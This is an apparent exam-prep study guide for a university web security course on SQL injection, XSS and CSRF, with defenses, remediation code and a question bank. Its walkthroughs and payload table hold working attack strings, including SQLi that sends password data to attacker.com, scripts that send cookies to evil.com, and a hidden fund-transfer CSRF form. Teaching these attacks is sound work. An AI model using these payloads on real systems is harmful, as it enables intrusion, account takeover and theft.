





# Web Attacks: Exploiting web applications—SQL Injection (SQLi), Cross-Site Scripting (XSS), and Cross-Site Request Forgery (CSRF)

<!-- SECTION_1_START -->
# Web Application Exploits: SQL Injection, XSS, and CSRF

## 1. Core Technical Definition

### 1.1 SQL Injection (SQLi)
**SQL Injection** is a code-injection attack technique in which an adversary inserts (injects) malicious Structured Query Language (SQL) statements into an input field that is subsequently concatenated, interpreted, and executed by the backend relational database engine of a web application. It is formally classified under **CWE-89** (Improper Neutralization of Special Elements used in an SQL Command) by the MITRE Common Weakness Enumeration registry.

### 1.2 Cross-Site Scripting (XSS)
**Cross-Site Scripting** is a client-side code-injection vulnerability (classified as **CWE-79**) in which an attacker injects malicious scripts (typically JavaScript, but also HTML, VBScript, or ActiveX) into web pages viewed by other users. The browser of the victim executes the injected script in a security context that is indistinguishable from the legitimate origin of the vulnerable web application.

### 1.3 Cross-Site Request Forgery (CSRF)
**Cross-Site Request Forgery** (also called *Session Riding* or *One-Click Attack*, classified as **CWE-352**) is a malicious exploit whereby unauthorized commands are transmitted from a user that the web application trusts. The attack leverages the fact that browsers automatically include authentication credentials (session cookies, HTTP authentication) with every request to a site, regardless of where the request originated.

> [!IMPORTANT]
> **KTU 2024 Scheme Syllabus Mapping (PBCST604 / Module 3):** All three vulnerabilities fall under the **OWASP Top 10 (2021 Edition)** as **A03:2021 (Injection)**, **A05:2021 (Security Misconfiguration / XSS)**, and **A01:2021 (Broken Access Control / CSRF)**. Mastery of payloads, exploitation mechanics, and remediation is mandatory for ESE and continuous assessment.

---

## 2. Intuitive Overview & Real-World Analogies

### 2.1 SQL Injection — The "Bilingual Waiter" Analogy
Imagine a restaurant where the head chef understands only Italian. The waiter (the web application) takes your order (user input) and *literally* translates every word you say into an Italian sentence, then hands it to the chef (the database). A malicious customer (the attacker) who knows a few Italian words can say: *"Bring me the carbonara, AND also give me the combination to the safe"*. The waiter faithfully forwards it; the chef executes it. The attacker has *injected* commands into the data stream.

### 2.2 Cross-Site Scripting — The "Forged Bulletin Board Notice" Analogy
A university notice board (the trusted web page) allows anyone to pin a notice. A prankster pins a notice written in invisible ink that, when a passerby walks close to read it, sprays paint in their eyes (executes JavaScript in their browser). The passerby trusts the notice board, so the spray is accepted as "authorized".

### 2.3 Cross-Site Request Forgery — The "Forged Letter on Official Letterhead" Analogy
You walk into a bank, sign a withdrawal slip, and the teller (browser) sees the bank's official letterhead, your signature cookies, and processes it. The attacker never forged your signature; he merely *tricked* the teller into using your valid credentials on a forged document. The bank's own machinery was weaponized against you.

> [!NOTE]
> **Session vs. Persistent Cookies:** The HTTP protocol is **stateless**; cookies (small text tokens, typically 4 KB max per RFC 6265) are the *only* mechanism by which the server remembers "who you are". This statefulness-via-cookie is precisely what both XSS and CSRF exploit. **Always mention cookies in your exam answers** — it is a high-value valuation point.

---

## 3. Taxonomy at a Glance

| Attack | OWASP 2021 Rank | CWE ID | Primary Target | Trust Boundary Violated |
| :--- | :---: | :---: | :--- | :--- |
| **SQL Injection** | A03 | CWE-89 | Backend Database (Server) | User Input $\rightarrow$ Database |
| **XSS** | A05 | CWE-79 | Victim's Browser (Client) | User Input $\rightarrow$ HTML/JS |
| **CSRF** | A01 | CWE-352 | Authenticated User (Client) | Cross-Origin Request $\rightarrow$ State Change |

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->
# Deep Theoretical Analysis & KTU High-Yield Knowledge Sheet

## 1. SQL Injection (SQLi) — Operational Mechanics

### 1.1 Classification Hierarchy
SQLi is broadly divided into:

1. **In-band SQLi** (data is exfiltrated through the same channel as the attack):
   * **Error-Based SQLi** — forces the database to raise verbose error messages revealing schema, table names, or column data. Example payload in MySQL: `AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)`.
   * **Union-Based SQLi** — appends a `UNION SELECT` operator to merge attacker-controlled rows with legitimate query results.
2. **Inferential (Blind) SQLi** (no direct data is returned; the server's *behavior* is the oracle):
   * **Boolean-Based Blind** — payload: `' AND 1=1 --` returns the page; `' AND 1=2 --` returns an empty page. By toggling the condition, the attacker infers bit-by-bit data.
   * **Time-Based Blind** — payload: `'; IF(1=1, WAITFOR DELAY '0:0:5', 0) --` uses a 5-second sleep to confirm a true condition.
3. **Out-of-Band SQLi** — exfiltrates data via DNS or HTTP callbacks, e.g., `'; EXEC xp_dirtree '//attacker.com/' + (SELECT TOP 1 password FROM users) --` (SQL Server).

### 1.2 Root-Cause Analysis (The "Why")
The vulnerability exists due to **string concatenation** of untrusted input into executable SQL syntax. The five-stage **MITRE ATT\&CK Framework** procedure for T1190 (Exploit Public-Facing Application) lists SQLi as the primary vector for initial access into enterprise networks.

> [!IMPORTANT]
> **The Tautology Principle:** Classic SQLi works by turning the `WHERE` clause condition into an *always-true* statement. Example: `SELECT * FROM users WHERE name=' ' OR '1'='1' AND pass=' ' OR '1'='1'`. The database evaluates `'1'='1'` as TRUE for every row, returning the entire `users` table — typically yielding the administrator's hashed credentials.

### 1.3 Real-World Engineering Utility
* **Defensive:** SQLi detection is foundational in **Web Application Firewalls (WAFs)** like ModSecurity, AWS WAF, Cloudflare WAF. Rule-set signatures (e.g., detecting `UNION SELECT`, `' OR`, `xp_cmdshell`) are a multi-billion-dollar industry.
* **Offensive:** In authorized **penetration testing**, SQLi is the #1 finding in engagements against legacy ERP and CRM systems. Tools: *SQLMap* (open-source, automated), *Havij*, *jSQL Injection*.
* **DevSecOps:** SAST (Static Application Security Testing) tools — SonarQube, Checkmarx, Fortify — flag unsanitized concatenation. DAST (Dynamic AST) tools — OWASP ZAP, Burp Suite — actively inject payloads.

---

## 2. Cross-Site Scripting (XSS) — Operational Mechanics

### 2.1 Classification Hierarchy
1. **Stored (Persistent) XSS** — the malicious payload is permanently stored in the target server (database, message forum, comment field, log file) and delivered to *every* victim who requests the affected resource. Highest severity.
2. **Reflected (Non-Persistent) XSS** — the payload is embedded in a request (e.g., a URL parameter) and immediately "reflected" back in the HTTP response. Requires social engineering (phishing link) to lure the victim.
3. **DOM-Based XSS** — the vulnerability lies entirely in client-side JavaScript that unsafely reads from `document.location`, `document.referrer`, or `window.name` and writes to the DOM via `innerHTML`, `document.write()`, or `eval()`.
4. **Blind XSS** — payload executes in an admin's backend panel, often via a support ticket or feedback form. The attacker does not see the response but receives an exfiltration callback.

### 2.2 Root-Cause Analysis (The "Why")
Browsers use the **Same-Origin Policy (SOP)** to isolate content. However, SOP only isolates *origins*; it does *not* sanitize content. When a server reflects unescaped input into HTML, the browser's HTML parser cannot distinguish attacker-controlled `<script>` tags from server-issued ones, because both share the same origin context.

> [!NOTE]
> **The Content Security Policy (CSP) Countermeasure:** CSP is an HTTP response header (`Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com`) that whitelists approved sources of executable scripts. A well-configured CSP neutralizes the majority of XSS payloads. This is a **favourite KTU exam question** — always cite CSP as a defense-in-depth layer.

### 2.3 Real-World Engineering Utility
* **WAFs** pattern-match `<script>`, `javascript:`, `onerror=`, `eval(`.
* **Browser Engines** (V8 in Chrome, SpiderMonkey in Firefox) now isolate sites into per-site processes (Site Isolation, 2018+) — a process-level XSS mitigation.
* **Bug Bounty Programs** at Google, Facebook, Microsoft routinely pay **\$3,000 – \$20,000** for stored XSS in core products. Demonstrating the severity of even a single unescaped comment field.

---

## 3. Cross-Site Request Forgery (CSRF) — Operational Mechanics

### 3.1 The Pre-Condition
For CSRF to succeed, **three conditions** must hold simultaneously (the *trifecta*):
1. The victim has an **active session** (valid session cookie) with the target site.
2. The target site relies **solely on session cookies** for authentication (no secondary token validation).
3. The attacker can **force the victim's browser** to send a request (via ``, hidden `<form>`, or auto-submitting JavaScript).

### 3.2 Attack Vectors
* **GET-based CSRF:** `` — the browser auto-fetches the URL with cookies attached.
* **POST-based CSRF:** A hidden auto-submitting form is required because `` only issues GET. The form is hidden in a zero-pixel iframe, and JavaScript `form.submit()` is triggered on page load.
* **JSON-based CSRF (advanced):** Exploits *simple* CORS preflight behavior. `Content-Type: text/plain` is a *simple* request that does *not* trigger an OPTIONS preflight, bypassing many CSRF defenses.

### 3.3 The Synchronizer Token Pattern (Defense)
The server embeds a **CSRF Token** (a cryptographically random 128-bit value, often called *Nonce* or *Anti-CSRF token*) into every state-changing form. The token is bound to the user's session. When the form is submitted, the server compares the submitted token with the session-bound token. Because the attacker cannot read the victim's DOM (SOP protects it), he cannot forge a valid token.

> [!IMPORTANT]
> **SameSite Cookies (RFC 6265 bis):** Modern browsers default to `SameSite=Lax`, which blocks cookies on cross-site POST requests. This single attribute has *effectively neutered traditional CSRF* in modern webapps — a key KTU current-affairs point.

---

## 4. KTU High-Yield Formula & Payload Sheet

| Attack | HTTP Method | Canonical Payload Skeleton | Primary Defense | Status Code on Exploit |
| :--- | :---: | :--- | :--- | :---: |
| **Error-Based SQLi** | GET / POST | `' AND 1=CONVERT(int,(SELECT TOP 1 table_name FROM information_schema.tables)) --` | **Parameterized Queries** (Prepared Statements) | 500 Internal Server Error |
| **Union-Based SQLi** | GET | `' UNION SELECT null,username,password FROM users --` | Input Validation + Least Privilege DB User | 200 OK (with stolen data) |
| **Boolean Blind SQLi** | GET | `' AND SUBSTRING(@@version,1,1)='5` | ORM Frameworks (Hibernate, SQLAlchemy) | 200 / 302 (differential) |
| **Time-Based Blind SQLi** | GET | `'; WAITFOR DELAY '0:0:10' --` | WAF Rate-Limiting + Anomaly Detection | 200 OK (delayed) |
| **Stored XSS** | POST | `<script>document.location='https://evil.com/?c='+document.cookie</script>` | Output Encoding (HTML, JS, URL contexts) | 201 Created |
| **Reflected XSS** | GET | `<svg/onload=alert(document.domain)>` | Context-Aware Escaping | 200 OK |
| **DOM XSS** | GET (fragment) | `javascript:void(document.location='https://evil.com/?c='+document.cookie)` | Trusted Types API + DOMPurify Library | 200 OK |
| **CSRF (GET)** | GET | `` | **Anti-CSRF Tokens** + `SameSite=Strict` cookies | 302 Redirect |
| **CSRF (POST)** | POST | Hidden form + `form.submit()` JavaScript | Double-Submit Cookie Pattern | 200 OK |

> [!TIP]
> **Mnemonic for remembering defenses: "P-OWASP"** — **P**arameterized queries, **O**utput encoding, **W**eb Application Firewall, **A**nti-CSRF tokens, **S**ameSite cookies, **P**rivilege separation. Useful in viva voce.

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->
# Step-by-Step Derivations, Payloads, and Exploit Walkthroughs

## 1. SQL Injection — Exhaustive Walkthrough

### 1.1 Vulnerable Source Code (ASP.NET / C\# Pseudocode)

```csharp
// VULNERABLE: Concatenates user input directly into SQL string
string query = "SELECT id, username, password FROM users WHERE username='" 
               + Request.QueryString["user"] 
               + "' AND password='" 
               + Request.QueryString["pass"] 
               + "'";
SqlCommand cmd = new SqlCommand(query, connection);
SqlDataReader rdr = cmd.ExecuteReader();
```

### 1.2 Exploitation Step-by-Step

**Step 1 — Reconnaissance (Fingerprinting the DBMS):**

The attacker appends a single quote to test for error leakage.

$$ \text{Input: } \texttt{user=admin'} $$

$$ \text{Resulting Query: } \texttt{SELECT ... WHERE username='admin'' AND password='...'} $$

The unescaped apostrophe creates a **syntax error**. The server leaks:

```sql
Microsoft OLE DB Provider for ODBC Drivers error '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]Incorrect syntax near 'admin''.
```

**[Valuation Point: Identifying the DBMS via error string — 2 Marks]**

**Step 2 — Determining Column Count (UNION preparation):**

The `UNION` operator requires both queries to have an *equal number of columns*. The attacker probes with `ORDER BY` increments.

$$ \texttt{user=admin' ORDER BY 1 --} \quad \rightarrow \quad \text{200 OK} $$

$$ \texttt{user=admin' ORDER BY 2 --} \quad \rightarrow \quad \text{200 OK} $$

$$ \texttt{user=admin' ORDER BY 3 --} \quad \rightarrow \quad \text{500 Error} $$

Conclusion: The query selects **2 columns**.

**[Valuation Point: Correct deduction of column cardinality — 1 Mark]**

**Step 3 — Injecting the UNION SELECT:**

$$ \texttt{user=' UNION SELECT @@version, NULL --} $$

$$ \text{Resulting Query: } \texttt{SELECT id, username FROM users WHERE username='' UNION SELECT @@version, NULL --'} $$

The browser displays the DBMS banner (e.g., `Microsoft SQL Server 2019 (RTM)`).

**Step 4 — Schema Enumeration:**

$$ \texttt{user=' UNION SELECT name, NULL FROM master..sysdatabases --} $$

This lists every database on the server (e.g., `master`, `tempdb`, `payroll_prod`).

**Step 5 — Table & Column Enumeration:**

The attacker switches to the `information_schema` (ANSI-standard metadata repository):

$$ \texttt{user=' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema='payroll_prod' --} $$

Returns: `employees`, `salaries`, `tax_records`.

**Step 6 — Data Exfiltration:**

$$ \texttt{user=' UNION SELECT username, password FROM employees --} $$

The login page now *displays every username and password hash* in place of the expected single result row.

**Step 7 — Authentication Bypass (Tautology):**

The simplest form — bypassing the login screen entirely:

$$ \texttt{user=admin' OR '1'='1' --} \quad \text{and} \quad \texttt{pass=anything} $$

$$ \text{Final Query: } \texttt{SELECT ... WHERE username='admin' OR '1'='1' --' AND password='anything'} $$

The `--` is a SQL single-line comment, neutralizing the password check. The condition `OR '1'='1'` is **always TRUE**, returning the first user row (often the admin).

---

### 1.3 Remediation Code (Parameterized Query)

```csharp
// SECURE: Parameterized query — input is bound as DATA, not CODE
string query = "SELECT id, username FROM users WHERE username = @user AND password = @pass";
SqlCommand cmd = new SqlCommand(query, connection);
cmd.Parameters.AddWithValue("@user", Request.QueryString["user"]);
cmd.Parameters.AddWithValue("@pass", Request.QueryString["pass"]);
SqlDataReader rdr = cmd.ExecuteReader();
```

> [!NOTE]
> The parameter `@user` is sent to the database as a *typed value*, not as raw SQL syntax. The DBMS protocol ensures the value is never re-parsed as executable code. This single architectural change defeats **all in-band and most blind SQLi** variants.

---

## 2. XSS — Exhaustive Walkthrough

### 2.1 Vulnerable Source Code (PHP)

```php
<!-- VULNERABLE: Reflects search term without encoding -->
<form action="search.php" method="GET">
  <input name="q" type="text" />
  <input type="submit" />
</form>
<?php echo "You searched for: " . $_GET['q']; ?>
```

### 2.2 Exploitation Step-by-Step

**Step 1 — Craft the Malicious URL:**

$$ \texttt{https://vulnerable.com/search.php?q=<script>alert(1)</script>} $$

**Step 2 — Server-Side Reflection:**

The PHP engine concatenates the raw input into the HTML response:

```html
You searched for: <script>alert(1)</script>
```

**Step 3 — Browser Execution:**

The victim's browser parses the response, encounters the `<script>` tag, and executes it in the **origin context of `vulnerable.com`**. The payload has full DOM access: cookies, local storage, session tokens.

**Step 4 — Cookie Stealing Payload (Production-Grade):**

```html
<script>
  var i = new Image();
  i.src = "https://attacker.com/steal?c=" + encodeURIComponent(document.cookie);
</script>
```

The attacker hosts a listener on `attacker.com`. The victim's session cookie is exfiltrated silently. The attacker replays the cookie in his own browser, gaining **full account takeover without ever knowing the password**.

### 2.3 Stored XSS Exploitation (Forum Comment Example)

```html
<!-- Posted as a comment on a public forum -->

```

Every visitor who views the forum thread triggers the exfiltration. This is **self-replicating** if the comment form lacks CSRF protection (a chained XSS $\rightarrow$ CSRF worm, the technique used in the 2005 MySpace Samy Worm).

### 2.4 Remediation Code (Context-Aware Output Encoding)

```php
<!-- SECURE: htmlspecialchars() encodes <, >, &, " to entities -->
<?php echo "You searched for: " . htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8'); ?>
```

The browser displays the literal text `<script>alert(1)</script>` rather than executing it. For JavaScript contexts, use `JSON_HEX_TAG` encoding; for URL contexts, use `urlencode()`.

---

## 3. CSRF — Exhaustive Walkthrough

### 3.1 Attacker's HTML Payload (Hidden Auto-Submitting Form)

```html
<!-- Hosted on evil.com -->
<html>
  <body onload="document.forms[0].submit();">
    <form action="https://bank.com/transfer" method="POST" id="csrfForm">
      <input type="hidden" name="to_account" value="ATTACKER_ACC" />
      <input type="hidden" name="amount" value="50000" />
      <input type="hidden" name="currency" value="USD" />
    </form>
  </body>
</html>
```

### 3.2 Exploitation Step-by-Step

**Step 1 — The Lure:**

The attacker sends the victim a phishing email: *"You have won a \$100 Amazon voucher! Claim now → http://evil.com/claim.html"*.

**Step 2 — Browser Behavior:**

The victim clicks. The browser loads `evil.com/claim.html`. Crucially, the browser's *cookie jar* still contains the **valid session cookie for `bank.com`** (cookies are not isolated by *visit*; they are stored *per origin* and *sent per origin*).

**Step 3 — Form Submission:**

The `onload` handler fires. The form auto-submits to `https://bank.com/transfer`. The browser, performing per RFC 6265 cookie attachment, includes the `bank.com` session cookie in the POST request.

**Step 4 — Server Processing:**

The bank server sees:
* A **valid session cookie** for user "Alice".
* A `POST /transfer` request with `to_account=ATTACKER_ACC&amount=50000`.
* No anomaly (no CSRF token required, no Origin/Referer validation).

The transfer is **executed atomically**. Alice's browser never sees the response. Alice is unaware until her bank statement arrives.

**Step 5 — Why It Worked (The 3-Part Trifecta):**

1. **Active Session** — Alice logged in earlier and closed no tabs.
2. **Cookie-Only Auth** — Bank trusts cookies alone.
3. **Cross-Origin Submission** — Browser auto-attaches cookies to all requests to `bank.com`, regardless of initiator.

### 3.3 Remediation Code (Synchronizer Token Pattern in Python / Flask)

```python
from flask import Flask, session, render_template_string, request, abort
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_hex(32)

@app.before_request
def csrf_protect():
    if request.method == "POST":
        token = session.get('_csrf_token')
        form_token = request.form.get('_csrf_token')
        if not token or token != form_token:
            abort(403, "CSRF token mismatch")

@app.route("/transfer", methods=["GET", "POST"])
def transfer():
    if request.method == "GET":
        if '_csrf_token' not in session:
            session['_csrf_token'] = secrets.token_urlsafe(32)
        return render_template_string(
            '<form method="POST">'
            '<input name="_csrf_token" value="{{ csrf_token }}">'
            '<input name="amount" placeholder="amount">'
            '<button type="submit">Send</button>'
            '</form>',
            csrf_token=session['_csrf_token']
        )
    # POST handler executes the transfer...
```

**Step-by-Step Defense Logic:**

1. On first GET, a cryptographically random 256-bit token is generated and stored in the **server-side session** *and* embedded in the form.
2. On every POST, the server compares the form's `_csrf_token` against the session's token.
3. Because SOP blocks `evil.com` from reading the DOM of `bank.com`, the attacker cannot read the token. Any forged POST will be missing the token, and the server returns HTTP **403 Forbidden**.

> [!NOTE]
> **Double-Submit Cookie Pattern (Stateless Alternative):** The server sets a CSRF cookie via `Set-Cookie` and the JavaScript reads it and echoes it in a header (`X-CSRF-Token`). The server verifies both match. This pattern suits REST APIs and JWT-based stateless systems where server-side sessions are undesirable.

---

## 4. Engineering Trade-Off Table (Exam-Relevant)

| Defense | SQLi Mitigation | XSS Mitigation | CSRF Mitigation | Performance Cost | Implementation Complexity |
| :--- | :---: | :---: | :---: | :---: | :---: |
| **Parameterized Queries** | Strong | None | None | Negligible | Low |
| **Stored Procedures** | Strong (with `sp_executesql`) | None | None | Low | Medium |
| **Output Encoding (Contextual)** | None | Strong | None | Low (1–5 µs/req) | Medium |
| **Content Security Policy** | None | Strong (defense-in-depth) | None | Zero | Low |
| **Anti-CSRF Tokens** | None | None | Strong | Low (~50 bytes/req) | Medium |
| **`SameSite=Strict` Cookies** | None | None | Strong (GET bypass) | Zero | Trivial |
| **WAF (ModSecurity, AWS WAF)** | Medium (signature bypass possible) | Medium | Medium | ~1–3 ms latency | Low |

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->
# Structural Diagrams & Attack-Flow Schematics

## 1. Master Attack Topology (Top-Down View)



## 2. SQL Injection Attack Flow (Detailed Subgraph)



## 3. XSS Attack Flow (Detailed Subgraph)

```mermaid
flowchart TD
    subgraph reflectA[Reflected XSS Path]
        r1a[Attacker Crafts URL with Script Tag] --> r1b[Distributes URL via Phishing]
        r1b --> r1c[Victim Clicks Link]
        r1c --> r1d[Server Reflects Input in Response]
        r1d --> r1e[Browser Executes Script in Origin Context]
    end
    
    subgraph storeA[Stored XSS Path]
        s1a[Attacker Posts Payload in Comment Form] --> s1b[Server Persists Payload in Database]
        s1b --> s1c[Every Visitor Receives Page with Payload]
        s1c --> s1d[Browser Executes Script for Each Victim]
    end
    
    subgraph domA[DOM XSS Path]
        d1a[Attacker Manipulates URL Fragment] --> d1b[Client Side JavaScript Reads Location Hash]
        d1b --> d1c[Unsafely Writes to DOM via innerHTML]
        d1c --> d1d[Script Executes Without Server Roundtrip]
    end
    
    reflectA --> e1[Outcome Cookie Theft or Keylogging or Defacement]
    storeA --> e1
    domA --> e1
```



## 4. CSRF Attack Flow (Detailed Subgraph)



## 5. Defense-in-Depth Layered Model



## 6. Cross-Attack Comparison Matrix (Block-Level)



<!-- SECTION_4_END -->

<!-- SECTION_5_START -->
# KTU 2024 Scheme Examination Question Bank

---

## Part A — Short Answer Questions (3 Marks Each)

### Question 1
**[KTU University Exam — July 2024] | CO1 | Bloom Level: Remember**

Define **Cross-Site Scripting (XSS)**. List its three primary types and state one mitigation technique for each.

**Model Answer (Valuation Key — 3 Marks):**

**Definition (1 Mark):** Cross-Site Scripting (XSS) is a client-side code-injection vulnerability (CWE-79) in which malicious scripts — typically JavaScript — are injected into web pages that are subsequently rendered by other users' browsers. The injected script executes in the security context of the vulnerable origin, enabling theft of session cookies, defacement, or credential harvesting.

**Types (1 Mark):**
1. **Stored (Persistent) XSS** — payload is permanently stored in the backend and delivered to every visitor.
2. **Reflected (Non-Persistent) XSS** — payload is reflected in the immediate HTTP response, typically via URL parameters.
3. **DOM-Based XSS** — payload is processed entirely in client-side JavaScript without server roundtrip.

**Mitigations (1 Mark):**
1. **Stored XSS $\rightarrow$ Output Encoding** of all user-supplied data before rendering in HTML.
2. **Reflected XSS $\rightarrow$ Context-Aware Escaping** in the rendering template engine.
3. **DOM XSS $\rightarrow$ Trusted Types API** in modern browsers, or sanitization libraries like DOMPurify.

> [!WARNING]
> **Examiner's Pitfall Warning:** Students frequently lose marks by **omitting the type-to-defense mapping**. Always state *which* defense neutralizes *which* variant. A generic "use input validation" answer without subclassification scores at most 1 of 3 marks.

---

### Question 2
**[KTU University Exam — Dec 2023] | CO2 | Bloom Level: Understand**

Differentiate between **SQL Injection** and **Cross-Site Request Forgery (CSRF)** based on the following four parameters: (i) attack target, (ii) trust boundary violated, (iii) HTTP methods exploited, and (iv) primary defense mechanism.

**Model Answer (Valuation Key — 3 Marks):**

| Parameter | SQL Injection (SQLi) | Cross-Site Request Forgery (CSRF) |
| :--- | :--- | :--- |
| **(i) Attack Target** (0.75 M) | Backend relational database engine | The authenticated user's active session |
| **(ii) Trust Boundary Violated** (0.75 M) | User input field $\rightarrow$ SQL query string | Cross-origin web page $\rightarrow$ trusted origin's state-changing endpoint |
| **(iii) HTTP Methods Exploited** (0.75 M) | Predominantly GET (URL parameters) and POST (form bodies) | Both GET (e.g., via ``) and POST (via hidden auto-submitting forms) |
| **(iv) Primary Defense** (0.75 M) | **Parameterized (Prepared) Statements** | **Anti-CSRF Tokens (Synchronizer Pattern)** + `SameSite=Strict` cookies |

> [!WARNING]
> **Examiner's Pitfall Warning:** Do not write vague answers like *"both are web attacks"*. The KTU board expects a **parameterized comparative table**. Omitting the defense mechanism is the most common 0.75-mark deduction.

---

## Part B — Long Answer Questions (14 Marks Each, Module Internal Choice)

### Question A (14 Marks)
**[KTU University Exam — July 2024] | CO1, CO2 | Bloom Level: Apply & Analyze**

#### Part (a) — 7 Marks | Apply

Consider the login form of a vulnerable web application. The backend constructs the following query:

$$ \text{Query} = \texttt{"SELECT * FROM users WHERE username='"} + \text{userInput} + \texttt{"' AND password='"} + \text{passInput} + \texttt{"'"} $$

Demonstrate with **three distinct payloads** how an attacker can perform (i) **Authentication Bypass**, (ii) **Union-Based Data Exfiltration**, and (iii) **Boolean-Based Blind SQLi**. For each payload, show the *resulting query* the database actually executes.

#### Part (b) — 7 Marks | Analyze

